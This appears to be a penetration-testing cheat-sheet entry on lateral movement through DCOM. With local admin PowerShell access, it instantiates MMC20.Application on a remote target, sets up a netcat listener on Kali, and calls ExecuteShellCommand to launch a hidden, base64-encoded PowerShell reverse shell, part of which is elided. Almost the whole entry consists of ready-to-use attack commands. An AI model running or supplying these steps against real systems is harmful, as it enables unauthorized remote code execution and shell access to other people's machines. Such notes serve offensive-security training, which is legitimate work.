 ## DCOM
- Prerequisite:
	- PowerShell shell access (local admin)
- Obtains:
	- Access to target machine
- Run on elevated PowerShell:
	`$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","[IP OF TARGET]"))`
	Set up listener on Kali:
	`nc -nvlp 443`
	Run on elevated PowerShell:
`$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")` (the generated encoded reverse shell payload)

	